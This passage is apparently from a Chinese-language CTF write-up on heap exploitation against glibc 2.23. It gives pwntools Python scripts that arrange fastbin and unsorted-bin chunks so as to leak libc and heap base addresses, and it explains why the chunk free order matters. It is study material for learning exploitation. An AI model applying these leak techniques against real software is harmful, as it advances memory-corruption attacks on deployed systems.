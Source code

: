 做到这里发现我 patch 的 glibc 小版本跟原题是不一样的，我动调调出来的偏移是不一样的，但是我找遍了都没找着题目`libc6_2.23-0ubuntu10`版本

不知道为啥吞拿站、阿里云、ubuntu 官方也都没有这个版本的 glibc...

估计是被删掉了，我看 `glibc-all-in-one`的演示下载的就是这个版本

但是一般题目就只会给 libc.so.6 ，找不到对应的 glibc 怎么办...

### 重点
看 WP 提醒了一个细节，堆的第一个 chunk 的地址最低位是 \x00，在这题不能用来泄露，会被截断，

所以上面先申请两个 fastchunk 的话，就得先释放 chunk2 再释放 chunk1，因为这样泄露出来的是 chunk2 的 fd，如果反过来泄露 chunk1 的 fd 就会被截断没法泄露出来

但是可以先申请 unsortedchunk，  
这样就完全不用考虑 fastchunk 的释放顺序：

```python
add(0x100,b'c'*0x8) #unsortedchunk
add(0x70,b'a'*0x8) #fastchunk1
add(0x70,b'b'*0x8) #fastchunk2
add(0x20,b'd'*0x8) #gap
delete(1)
libc_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
# print(hex(libc_addr))
libc_base=libc_addr-0x3c3b78
print('libc_base='+hex(libc_base))

gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu3_amd64/')
pause()

delete(2)
delete(3)
link.recvuntil(b'INDEX: 3')
link.recvuntil(b'CONTENT: ')
heap_addr=u64(link.recvline().rstrip().ljust(8,b'\x00'))
# print(hex(heap_addr))
heap_base=heap_addr-0x110
print('heap_base='+hex(heap_base))
```

这下就把 libc 基址和堆基址（也就是第一个 chunk 的地址）泄露出来了

> 为什么要用到两个 fastchunk？
>
> 答：第一个进 fastbin 的 chunk 的 fd 是空的
>

可以只用三个 chunk 来泄露 libc 地址和堆地址：

```python
add(0x70,b'a'*0x8) #fastchunk1
add(0x70,b'b'*0x8) #fastchunk2
add(0x100,b'c'*0x8) #unsortedchunk

delete(2)
delete(1)
link.recvuntil(b'INDEX: 3')
link.recvuntil(b'CONTENT: ')
heap_addr=u64(link.recvline().rstrip().ljust(8,b'\x00'))
# print(hex(heap_addr))
heap_base=heap_addr-0x110
print('heap_base='+hex(heap_base))

delete(3)
libc_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
# print(hex(libc_addr))
libc_base=libc_addr-0x3c3b78
```